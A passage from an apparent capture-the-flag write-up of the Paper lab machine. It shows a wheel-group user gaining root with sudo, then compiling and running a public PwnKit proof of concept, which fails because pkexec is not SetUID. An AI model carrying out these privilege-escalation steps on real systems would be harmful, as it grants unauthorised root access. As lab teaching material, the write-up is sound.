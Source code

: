 Now this user is in the `wheel` group:

```

[secnigma@paper ~]$ id
uid=1005(secnigma) gid=1005(secnigma) groups=1005(secnigma),10(wheel)

```

This group [allows members](https://unix.stackexchange.com/a/152445/369627) to run `sudo`. I’ll need the password again, but it works:

```

[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma: 
[root@paper secnigma]#

```

And I can get the final flag:

```

[root@paper ~]# cat root.txt
1f6cdd61************************

```

## Beyond Root - Revisiting PwnKit

### Verify Failure

On noticing that `pkexec` was not SetUID, I gave up on PwnKit and moved to other things (which is a reasonable thing to do). I wanted to come back and play with that now that I have root access.

I’ll grab a POC pretty much at random (I’m going with [this one](https://github.com/luijait/PwnKit-Exploit/blob/main/exploit.c) by luijait). I’ll save a copy of `exploit.c` on Paper and then compile it:

```

[dwight@paper shm]$ cc -Wall exploit.c -o exploit
[dwight@paper shm]$ ls -l
total 28
-rwxrwxr-x 1 dwight dwight 21992 Jun  5 16:15 exploit
-rw-rw-r-- 1 dwight dwight  1547 Jun  5 16:15 exploit.c

```

I run it, and it complains that “pkexec must be setuid root”:

```

[dwight@paper shm]$ ./exploit 
Current User before execute exploit
hacker@victim$whoami: dwight
Exploit written by @luijait (0x6c75696a616974)
[+] Enjoy your root if exploit was completed successfully
GLib: Cannot convert message: Could not open converter from “UTF-8” to “PWNKIT”
pkexec must be setuid root

```
